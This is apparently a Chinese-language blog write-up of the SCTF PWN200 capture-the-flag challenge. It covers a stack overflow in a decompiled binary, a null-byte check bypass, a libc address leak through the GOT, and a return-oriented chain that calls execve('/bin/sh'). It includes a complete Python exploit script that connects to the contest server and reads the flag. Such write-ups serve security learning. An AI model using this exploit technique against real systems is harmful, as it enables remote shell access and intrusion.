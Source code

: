 ```yaml
---
title: SCTF PWN200 WriteUp
author: Ripples
layout: post
views:
  - 395
categories:
  - CTF
tags:
  - buffer overflow
  - CTF
  - ROP
  - SCTF
  - WriteUp
---
```

<p style="text-indent: 2em;">
  现在总算是考完试了，虽说也没能闲下来，但至少心里没考试前那么蛋疼了，就抽点空把之前的writeup给补上……
</p>

<p style="text-indent: 2em;">
  不过时间有点久了，可能细节不一定能记得那么清楚了，大概写下就是了~~~
</p>

<p style="text-indent: 2em;">
  IDA反编译得到的程序如下：
</p>

<!--more-->

<pre class="brush:cpp;toolbar:false">ssize_t&nbsp;__cdecl&nbsp;sub_80484AC()
{
&nbsp;&nbsp;ssize_t&nbsp;result;&nbsp;//&nbsp;eax@3
&nbsp;&nbsp;char&nbsp;v1;&nbsp;//&nbsp;[sp+1Ch]&nbsp;[bp-9Ch]@1
&nbsp;&nbsp;int&nbsp;buf;&nbsp;//&nbsp;[sp+9Ch]&nbsp;[bp-1Ch]@1
&nbsp;&nbsp;int&nbsp;v3;&nbsp;//&nbsp;[sp+A0h]&nbsp;[bp-18h]@1
&nbsp;&nbsp;int&nbsp;v4;&nbsp;//&nbsp;[sp+A4h]&nbsp;[bp-14h]@1
&nbsp;&nbsp;int&nbsp;v5;&nbsp;//&nbsp;[sp+A8h]&nbsp;[bp-10h]@1
&nbsp;&nbsp;size_t&nbsp;nbytes;&nbsp;//&nbsp;[sp+ACh]&nbsp;[bp-Ch]@1
&nbsp;&nbsp;nbytes&nbsp;=&nbsp;16;
&nbsp;&nbsp;buf&nbsp;=&nbsp;0;
&nbsp;&nbsp;v3&nbsp;=&nbsp;0;
&nbsp;&nbsp;v4&nbsp;=&nbsp;0;
&nbsp;&nbsp;v5&nbsp;=&nbsp;0;
&nbsp;&nbsp;memset(&v1,&nbsp;0,&nbsp;0x80u);
&nbsp;&nbsp;write(1,&nbsp;"input&nbsp;name:",&nbsp;0xCu);
&nbsp;&nbsp;read(0,&nbsp;&buf,&nbsp;nbytes&nbsp;+&nbsp;1);
&nbsp;&nbsp;if&nbsp;(&nbsp;strlen((const&nbsp;char&nbsp;*)&buf)&nbsp;-&nbsp;1&nbsp;&gt;&nbsp;9&nbsp;||&nbsp;strncmp("syclover",&nbsp;(const&nbsp;char&nbsp;*)&buf,&nbsp;8u)&nbsp;)
&nbsp;&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;=&nbsp;-1;
&nbsp;&nbsp;}
&nbsp;&nbsp;else
&nbsp;&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;write(1,&nbsp;"input&nbsp;slogan:",&nbsp;0xEu);
&nbsp;&nbsp;&nbsp;&nbsp;read(0,&nbsp;&v1,&nbsp;nbytes);
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;=&nbsp;write(1,&nbsp;&v1,&nbsp;nbytes);
&nbsp;&nbsp;}
&nbsp;&nbsp;return&nbsp;result;
}</pre>

<p style="text-indent: 2em;">
  这题很明显，在第一次读入的时候，存在着溢出的问题，而这一次溢出正好可以修改到下一次读入的时候的长度那个变量，这样就可以在下一次读入的时候破掉长度限制，从而可以在下一次读入的时候进一步的溢出，修改返回值地址。
</p>

<p style="text-indent: 2em;">
  这里需要注意的是，它第一次读入之后和字符串syclover用strncmp做了个比较，这里比较的长度是8，并且strlen的判断保证读入字符串长度要不大于10，而我们溢出所需要的长度不止10，那么这里就得注意到读入字符串的时候用的read函数，而read的特点是不会被x00这种字符断掉，那么正好可以在读入的字符串中间插入x00，这样就可以过掉strlen和strncmp的判断了。
</p>

<p style="text-indent: 2em;">
  接下来就是一个困扰我好久的问题，这题的堆栈都是不可运行的，我们无法传入shellcode，而调用execve等系统调用需要知道其地址，而由于是nc过去的，不像之前做wargame的时候都是ssh上去，可以看到系统函数的地址。那么我们这里就要注意到，它给的文件中，除了主程序，还有一个libc.so，那么这里很明确，就是需要我们通过给的libc来计算出我们所需函数的地址（libc载入之后各函数的相对位置不变）。可是计算地址需要我们知道某一个libc中函数的地址，如何拿到一个函数的地址着实让我想了好久。
</p>

<p style="text-indent: 2em;">
  其实这个问题本身并不难，只是由于太习惯了做wargame时候那种SSH上去直接看的方式，所以思路没打开，其实我们很显然可以通过调用write函数来把某一个系统函数真正的地址输出除了，write函数由于它程序中使用了，所以GOT表中是由对应项的，我们可以很轻松的调用。
</p>

<p style="text-indent: 2em;">
  最后，当我们通过这样的方式输出并计算得到execve的函数地址之后，如果再次重新运行溢出其实还是会有问题的，这里就涉及到服务器端实现的方法了，服务器端应该是对于每一个请求，单独载入对应的libc运行程序，所以每一次请求的libc地址是会不同的，也就是说我们需要在一次请求中拿到地址，然后计算出execve地址后再调用，这很容易就会想到是在一轮函数调用之后，控制程序返回到整个程序的开头（栈的结构使得我们有一次机会可以控制我们溢出调用函数后返回的位置，这个在之前做wargame的时候就有过），然后开始全新的一轮，这样我们就有机会一次次的溢出，调用我们所需要的函数。其实这个方法也有个专门的名称，叫ROP(Return-oriented programming)，我也是比完才知道……
</p>

<p style="text-indent: 2em;">
  至此，整个攻击流程已经清楚，下面是我比赛时的程序：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

import&nbsp;socket
import&nbsp;binascii

s&nbsp;=&nbsp;socket.socket(socket.AF_INET,&nbsp;socket.SOCK_STREAM)
s.connect((&#39;218.2.197.248&#39;,&nbsp;10001))
s.recv(100)

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""xa0x83x04x08""xacx84x04x08""x01x00x00x00""x50x98x04x08""x04x00x00x00")
result&nbsp;=&nbsp;s.recv(100)
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1&nbsp;or&nbsp;result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8&nbsp;&gt;&nbsp;len(result)&nbsp;-&nbsp;4:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result
read_addr&nbsp;=&nbsp;binascii.hexlify(result[result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8:][:4][::-1])
print&nbsp;&#39;0x%s&#39;&nbsp;%&nbsp;read_addr

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""xa0x83x04x08""xacx84x04x08""x01x00x00x00""x60x98x04x08""x04x00x00x00")
result&nbsp;=&nbsp;s.recv(100)
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1&nbsp;or&nbsp;result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8&nbsp;&gt;&nbsp;len(result)&nbsp;-&nbsp;4:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result
write_addr&nbsp;=&nbsp;binascii.hexlify(result[result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8:][:4][::-1])
print&nbsp;&#39;0x%s&#39;&nbsp;%&nbsp;write_addr

print&nbsp;hex(0xb8240&nbsp;-&nbsp;0xde3a0&nbsp;+&nbsp;int(read_addr,&nbsp;16))

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""x60x83x04x08""xacx84x04x08""x00x00x00x00""x68x98x04x08""x08x00x00x00")
s.send("/bin/shx00")
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""xa0x83x04x08""xacx84x04x08""x01x00x00x00""x68x98x04x08""x08x00x00x00")
result&nbsp;=&nbsp;s.recv(100)
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1&nbsp;or&nbsp;result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8&nbsp;&gt;&nbsp;len(result)&nbsp;-&nbsp;8:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result
print&nbsp;result[result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8:][:8]

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb"&nbsp;+&nbsp;binascii.unhexlify(hex(0x3f430&nbsp;-&nbsp;0xde3a0&nbsp;+&nbsp;int(read_addr,&nbsp;16))[2:])[::-1]&nbsp;+&nbsp;"xacx84x04x08""x68x98x04x08"&nbsp;+&nbsp;&#39;x00&#39;&nbsp;*&nbsp;8)

s.send(&#39;cat&nbsp;/home/pwn1/ffLLag_/flagn&#39;)
while&nbsp;True:
&nbsp;&nbsp;&nbsp;&nbsp;print&nbsp;s.recv(100)</pre>

<p style="text-indent: 2em;">
  其中前两次溢出分别是取得read和write载入内存的真实地址（其实只要获取一个就好）；第三次溢出是将/bin/sh这个字符串写入内存中一个固定位置，因为execve的参数中需要用，这里我是选择写在GOT表所在位置，因为可以肯定有写权限，不会崩；第四次溢出是输出看一下写入是否正确，可以不用；第五次溢出就是调用execve运行shell了。
</p>

<p style="text-indent: 2em;">
  不得不说，这题其实不难，思路很清楚，只是由于之前从没接触过这种形式的，所以浪费了不少时间……
</p>

<p style="line-height: 16px; text-indent: 2em;">
  <img src="http://geekjayvic.sinaapp.com/wp-content/plugins/wp-ueditor2/ueditor/dialogs/attachment/fileTypeImages/icon_rar.gif" /><a href="http://geekjayvic-wordpress.stor.sinaapp.com/uploads/2015/01/pwn200.zip">pwn200.zip</a>
</p>
